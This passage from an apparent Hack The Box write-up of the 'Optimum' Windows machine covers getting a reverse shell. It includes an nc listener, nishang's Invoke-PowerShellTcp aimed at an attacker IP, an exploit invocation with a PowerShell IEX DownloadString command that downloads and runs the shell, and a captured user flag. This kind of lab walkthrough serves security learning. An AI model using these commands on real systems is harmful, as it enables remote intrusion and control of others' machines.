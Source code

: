![testing with ping](/assets/img/htb/machines/windows/easy/optimum/ping.png)

We can see that the `ping` worked, now we can ask ourselves: _how to get a reverse shell?_ 

### Reverse shell

I tried to use this [one-line powershell reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) but I couldn't make it works.

So I used the one from [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) repository (`Invoke-PowerShellTcp.ps1`). We simply add the following line to the script:

{% highlight powershell %}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 1234
{% endhighlight %}

> Don't forget to run a listener `nc -lnvp 1234`

Using the exploit (49125.py) example, we can make the target download and execute this reverse shell file by doing so:

{% highlight bash %}
$ python3 49125.py $TARGET 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/Invoke-PowerShellTcp.ps1')"
{% endhighlight %}

![](/assets/img/htb/machines/windows/easy/optimum//Invoke-Powersehll.png)

> **NOTE**: `c:\windows\SysNative\` is a folder specific to 64-bit Windows while `c:\windows\System32\` and `c:\windows\SysWow64\` are both 32-bit Windows folders.

Now we got a shell:

![kostas reverse shell](/assets/img/htb/machines/windows/easy/optimum/reverse-shell.png)

### User (kostas)

{% highlight powershell %}
PS C:\Users\kostas\Desktop> type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
{% endhighlight %}

### Windows Exploit Suggester - Next Generation (WES-NG)
